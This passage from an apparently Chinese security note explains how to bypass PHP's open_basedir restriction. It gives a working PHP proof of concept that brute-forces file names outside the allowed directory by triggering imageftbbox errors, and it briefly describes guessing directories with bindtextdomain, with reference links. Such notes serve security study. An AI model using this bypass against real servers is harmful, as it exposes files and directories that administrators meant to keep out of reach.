 ```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```



## bindtextdomain暴力猜解目录

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200630132038.png)

 如上图，这个函数第二个参数`$directory`是一个文件路径。它会在`$directory`存在的时候返回`$directory`，不存在则返回false。 



## 参考

 https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html 



 https://xi4or0uji.github.io/2019/05/15/open_basedir-bypass/#bindtextdomain 